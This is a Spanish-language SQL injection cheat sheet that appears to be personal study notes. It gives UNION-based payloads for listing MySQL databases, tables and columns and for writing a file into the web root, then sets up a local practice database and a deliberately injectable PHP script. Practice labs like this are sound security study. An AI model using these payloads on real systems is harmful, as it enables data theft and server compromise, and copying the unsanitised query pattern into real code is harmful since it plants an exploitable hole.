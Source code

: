 # SQL Injection

En esta pagina se recopila todo lo que se vaya haciendo para SQLi.

## MySQL

### Listar bbdd

```sql
' union select schema_name,null from information_schema.schemata
```

### Listar tablas

```sql
' union select table_name,null from information_schema.tables where table_schema='products'-- -
```

### Listar columnas

```sql
' union select column_name,null from information_schema.columns where table_schema='products' and table_name='users'-- -
```

### Insertar fichero

```sql
union select 'hola' into outfile '/var/www/html/prueba.txt'-- -
```

## Creación de BBDD de pruebas en local

Este es el código:

```sql

create database pruebasdb;
use pruebasdb;
create table users(id int(32),username varchar(32),nombre varchar(150), password varchar(32));
insert into users(id, username, nombre, password) values(1, 'jamunoz', 'Juanito', 'Juanito123+');
insert into users(id, username, nombre, password) values(2, 'pepito', 'Pepito Grillo', 'pePItoELgrillo');
insert into users(id, username, nombre, password) values(3, 'manolito', 'Manolito Gafotas', 'ManoloElDelBombo2023');

create user 'jamunoz'@'localhost' identified by 'Juan123';
grant all privileges on pruebasdb.* to 'jamunoz'@'localhost';
```

## Creación de fichero php vulnerable a SQLi

Este es el código:

```php
<?php

$server = "localhost";
$username = "jamunoz";
$password = "Juan123";
$database = "pruebasdb";

// Conexion a BBDD
$conn = new mysqli($server, $username, $password, $database);

$id = $_GET['id'];

$data = mysqli_query($conn, "select nombre from users where id = '$id'");

$response = mysqli_fetch_array($data);

echo $response['nombre'];

?>
```
